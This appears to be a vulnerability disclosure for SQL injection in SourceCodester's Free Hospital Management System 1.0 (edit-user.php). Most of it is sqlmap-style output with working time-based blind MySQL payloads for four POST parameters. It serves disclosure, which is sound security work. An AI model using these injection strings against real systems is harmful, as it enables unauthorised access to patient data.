


https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html

## Free Hospital Management System for Small Practices 1.0
A vulnerability classified as critical has been found in SourceCodester Free Hospital Management System for Small Practices 1.0. Affected is an unknown function of the file vm\patient\edit-user.php

The manipulation of the argument $email, $name,$password,$nic,$tele,$address,$id,$oldemail leads to sql injection

```
Parameter: nic (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=1&oldemail=patient@patient.com&email=patient@patient.com&name=Mrs.Sunita Dighe&nic=422201' AND (SELECT 4293 FROM (SELECT(SLEEP(5)))DAKS) AND 'KGSv'='KGSv&Tele=9090909080&address=India&password=patient&cpassword=patient

Parameter: Tele (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=1&oldemail=patient@patient.com&email=patient@patient.com&name=Mrs.Sunita Dighe&nic=422201&Tele=9090909080' AND (SELECT 7998 FROM (SELECT(SLEEP(5)))eOlg) AND 'jmJk'='jmJk&address=India&password=patient&cpassword=patient

Parameter: id00 (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=1 AND (SELECT 1470 FROM (SELECT(SLEEP(5)))chBW)&oldemail=patient@patient.com&email=patient@patient.com&name=Mrs.Sunita Dighe&nic=422201&Tele=9090909080&address=India&password=patient&cpassword=patient

Parameter: oldemail (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=1&oldemail=patient@patient.com' AND (SELECT 3770 FROM (SELECT(SLEEP(5)))HToF) AND 'ZGHT'='ZGHT&email=patient@patient.com&name=Mrs.Sunita Dighe&nic=422201&Tele=9090909080&address=India&password=patient&cpassword=patient
```

